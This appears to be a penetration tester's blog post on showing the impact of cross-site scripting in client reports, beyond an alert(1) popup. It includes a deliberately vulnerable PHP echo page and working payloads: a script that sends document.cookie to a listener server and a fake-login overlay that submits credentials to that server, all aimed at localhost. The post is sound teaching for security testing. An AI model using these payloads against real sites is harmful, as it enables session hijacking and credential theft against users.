




Beyond alert(1)
Often when reporting cross-site scripting (XSS) I see the tester just show that they were able to inject some sort of payload that returned a popup box with a 1 in it. This is great and all, but I argue how this shows "impact" in the report to the client.
XSS can be very dangerous and if the finding in the report just shows a popup with a 1 in it how would they know the full impact of the vulnerability unless they were familiar with XSS?
I want to outline a few examples that I think would show more "impact" when trying to show XSS in your report.
Setup
For this I only need a quick page that will echo my input in the response that I can use for testing.
<?php echo $_GET[a] ?>
Just to confirm that its working.
curl "http://127.0.0.1:8080/page.php?a=hello" && \ curl "http://127.0.0.1:8080/page.php?a=<script>alert()</script>"
hello <script>alert()</script>
Image Injection
So I'm not going to teach you what XSS is, but when I first learnt about it I was told that its a fancy way to say "JavaScript injection". Now although that is true, html or any other front end "language/markup" may be used in the injection point, with that in mind, I feel that it shows more impact in the report showing that you were able to inject your employers logo into the clients application.
To do this I normally host the image on a local web server then try the payload <img src=http://127.0.0.1:8000/logo.png> in the injection point of the application.
file ./logo.png
./logo.png: PNG image data, 200 x 200, 8-bit/color RGBA, non-interlaced
Then I just use a local python server.
python -m SimpleHTTPServer 8000
After using the payload above the image is now in the applications immediate response.

In my opinion this looks far better in your report, it shows that you were able to inject an image into the clients applications response, but lets see if we can take that a little further.
Session Token Hijacking
Cookie stealing or session hijacking requires not only XSS but the cookie to be set without the HttpOnly or the session identifier to be retrievable from the applications response. As this is all about showing impact, I'd suggest only going for this option when your doing a test authenticated and with more than one user account to show privilege escalation of some sort. The typical payload for this would be <script src="http://127.0.0.1:8000"+document.cookie> however I wanted to share a way that I feel would show more impact.
First we have to modify the test page to actually include a session token in the response.
<?php echo $_GET[a]; $cookie_name = "test"; $cookie_value = "get_me"; setcookie($cookie_name, $cookie_value, "/"); ?>
Lets confirm that works as expected.
curl -I "http://127.0.0.1:8080/page.php?a=test"
HTTP/1.1 200 OK Host: 127.0.0.1:8080 Date: Mon, 30 Dec 2019 13:53:20 GMT Connection: close X-Powered-By: PHP/7.3.11-1~deb10u1 Set-Cookie: test=get_me Content-type: text/html; charset=UTF-8
Ok great, the page sets the session token as expected, I'm now going to host the following JavaScript file that will open a popup, send the session token to the web server, and then close the popup window.
var remoteAddr = "http://127.0.0.1:8000/"; //popup may get blocked by the browser function Popup(listener){ window.open(listener+"?cookie=" + document.cookie,'popUpWindow','height=10,width=10,left=100,top=100').close(); } Popup(remoteAddr);
Now if I use the following payload <script src=http://127.0.0.1:8000/popup.js></script> I should receive the session token in the web logs.

UI Redressing
The last option I wanted to share is UI redressing, this shows that you can actually rewrite the applications response in the browser to look like a login page, and if details are submitted then they are sent to the web server.
First like last time I'll host the JavaScript file in the web sever.
var protocol = "http"; var server = "127.0.0.1"; var port = "8000"; var remoteAddr = protocol+"://"+server+":"+port+"/"; function fakeLogin(listener){ history.replaceState(null,null,'../../../login'); document.body.innerHTML = "</br></br><h1>Please login to continue</h1><form action="+listener+" method='get'><label usern='usern'>Username:</label><input name='usern'id='usern'><label passw='passw'>Password:</label><input name='passw'id='passw'><button>Submit</button></form>"; //must be on one line } fakeLogin(remoteAddr);
Now including this file in the script source will rewrite the applications response to look like this.

Now as this is just a proof of concept its not pretty, but I hope the reader gets the point. The impact here comes when you submit that form, because they should be sent to the web server.

Conclusion
I hope from reading the examples that showing a box with a 1 in it as your finding for XSS really does not show the impact of the finding to the client. All my examples and more are available here.